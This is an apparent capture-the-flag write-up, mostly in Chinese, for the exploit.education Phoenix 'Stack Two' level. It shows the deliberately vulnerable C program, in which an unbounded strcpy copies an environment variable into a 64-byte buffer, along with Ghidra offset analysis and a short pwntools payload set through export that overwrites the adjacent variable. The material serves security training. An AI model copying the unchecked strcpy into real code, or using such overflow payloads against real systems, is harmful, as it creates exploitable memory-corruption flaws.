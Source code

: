 # STACK TWO

Stack Two takes a look at environment variables, and how they can be set.

### Source code

```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

官方页面原话

这可题目还是一样，栈溢出

但是我们没有输入点，只有

```c
ptr = getenv("ExploitEducation");
strcpy(locals.buffer, ptr);
```

`getenv("ExploitEducation")` 的作用就是获取一个名为 `ExploitEducation` 的环境变量

这个就是要我们设置环境变量了

Linux 下面设置环境变量是用 export

像是这样的：

```bash
export ExploitEducation="exploit"
```

还是一样，拿程式进行分析

日常 Ghidra

![image-20200428144905537](image-20200428144905537.png)

看到我们设置的环境变量会存到 `local_10` 中然后

```c
char local_58 [64];
strcpy(local_58,local_10);
```

我们可以溢出` local_58` 覆盖 `local_18` 为 `0xd0a090a`

` local_58` 位于 `rbp - 0x58`

 `local_18` 位于 `rap - 0x18`

知道距离，生成 payload

```bash
export ExploitEducation=$(python -c 'from pwn import *; print("A" * 0x40 + p64(0xd0a090a))')
```

![image-20200428153934871](image-20200428153934871.png)

pwn !